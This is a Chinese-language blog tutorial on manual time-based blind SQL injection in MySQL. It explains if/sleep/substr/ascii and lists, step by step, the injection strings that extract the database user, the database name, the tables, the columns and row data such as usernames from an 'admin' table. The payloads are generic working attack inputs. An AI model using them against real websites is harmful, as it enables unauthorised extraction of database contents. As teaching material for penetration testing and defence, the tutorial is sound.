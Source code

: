 ```yaml
---
title: Mysql手工盲注(延时注入)
date: 2018-05-13 11:19:25
tags:
	- Mysql
	- 渗透测试
	- sql注入
	- hack
	- 盲注
categories: 渗透测试
---
```


Mysql手工盲注(延时注入)<!-- more -->

盲注的核心是靠 if 判断来注入
```
length(xxxxx) 函数是统计字符串的长度

mid(str,1,3) 、substr(str,1,1)字符串截取

ascii() 转换成ascii码

if (条件,True,False);

sleep(n)

```
## 判断基于时间的盲注
判断基于时间的盲注
```
and if(1=1,sleep(5),1)
and if(1=2,sleep(5),1)
if(条件,True返回内容,False返回内容)用来进行判断，sleep()延时函数，单位秒。
```
![](http://image.ixysec.com/image/sql/sql096.png)

如上图所示，当if判断为真时，则会延时5s(如果文件中通过localhost连接数据库会延时5+1=6秒)；而if判断为假时，则不延时。

## 猜解当前数据库用户名
第一步：猜解用户名的长度。(猜解到的用户名长度用于下面的逐位猜解用户名)
```
and if((select length(user()))=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql097.png)

第二步：逐位猜解用户名。
```
and if((select ascii(substr(user(),位数,1))=ascii码),sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql098.png)

## 猜解当前数据库名
第一步：猜解数据库名的长度。
```
and if((select length(database()))=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql099.png)

第二步：猜解数据库名。
```
and if((select ascii(substr(database(),位数,1))=ascii码),sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql100.png)

## 猜表名
第一步：判断表名的数量(以便逐个猜表名)
```
and if((select count(table_name) from information_schema.tables where table_schema=database())=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql101.png)

第二步：判断某个表名的长度(以便逐位猜表名的数据)
```
and if((select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql102.png)

第三步：逐位猜表名
```
and if((select ascii(substr(table_name,位数,1)) from information_schema.tables where table_schema=database() limit n,1)=ascii码,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql103.png)

## 猜列名
第一步：判断列名的数量(以便逐个猜列名)
```
and if((select count(column_name) from information_schema.columns where table_name='表名')=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql104.png)

第二步：判断某个列名的长度(以便逐位猜列名的数据)
```
and if((select length(column_name) from information_schema.columns where table_name='表名' limit n,1)=长度,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql105.png)

第三步：逐位猜列名
```
and if((select ascii(substr(column_name,位数,1)) from information_schema.columns where table_name='表名' limit n,1)=ascii码,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql106.png)

## 猜数据
第一步：判断数据的数量(以便逐个猜数据)
```
and if((select count(列名) from 表名)=个数,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql107.png)

第二步：判断某个数据的长度(以便逐位猜数据)
```
and if((select length(username) from admin limit 0,1)=5,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql108.png)

第三步：逐位猜数据
```
and if((select ascii(substr(username,1,1)) from admin limit 0,1)=97,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql109.png)

**基于时间的盲注实质：**
```
if(布尔盲注语句,sleep(5),1)
```